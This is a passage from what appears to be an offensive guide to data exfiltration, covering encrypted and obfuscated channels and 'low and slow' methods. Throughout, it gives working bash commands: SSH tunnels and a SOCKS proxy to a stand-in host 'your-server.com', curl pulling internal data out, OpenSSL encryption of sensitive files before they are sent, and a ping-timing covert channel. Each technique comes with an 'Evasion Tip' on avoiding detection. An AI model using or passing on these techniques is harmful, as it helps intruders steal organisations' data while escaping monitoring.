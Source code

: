 ## 5. Encrypted and Obfuscated Channels

Adding encryption and obfuscation layers to any exfiltration method increases stealth.

- **SSH Tunneling**: Create encrypted tunnels for data transfer.
  - **Example (SSH Port Forwarding)**:
    ```bash
    # Local port forwarding
    ssh -L 8080:internal-server:80 user@pivot-host
    
    # Dynamic SOCKS proxy
    ssh -D 9050 user@your-server.com
    # Then configure tools to use the SOCKS proxy
    curl --socks5 127.0.0.1:9050 http://target-internal/data.txt > exfiltrated.txt
    ```
  - **Evasion Tip**: SSH traffic is encrypted but can be identified by flow analysis. Make SSH sessions look like normal administrative activity by timing them during business hours.

- **Custom Encryption**: Add your own encryption layer before using any exfiltration channel.
  - **Example (OpenSSL Encryption)**:
    ```bash
    # Encrypt data before exfiltration
    openssl enc -aes-256-cbc -salt -in sensitive_data.txt -out encrypted.bin -k password
    # Then exfiltrate the encrypted file using any method
    ```
  - **Evasion Tip**: Custom encryption prevents content inspection but unusual entropy can trigger alerts. Consider compressing data before encryption to reduce entropy patterns.

## 6. Low & Slow Techniques

These techniques focus on extremely stealthy, long-duration exfiltration.

- **Timing-Based Exfiltration**: Encode data in the timing between packets.
  - **Example (Timing Covert Channel)**:
    ```bash
    # Encode bits in timing (simplified example)
    for ((i=0; i<${#DATA}; i++)); do
      if [ "${DATA:$i:1}" == "1" ]; then
        sleep 0.5
      else
        sleep 0.1
      fi
      ping -c 1 your-server.com > /dev/null
    done
    ```
  - **Evasion Tip**: Extremely difficult to detect but very slow. Best for small amounts of critical data.
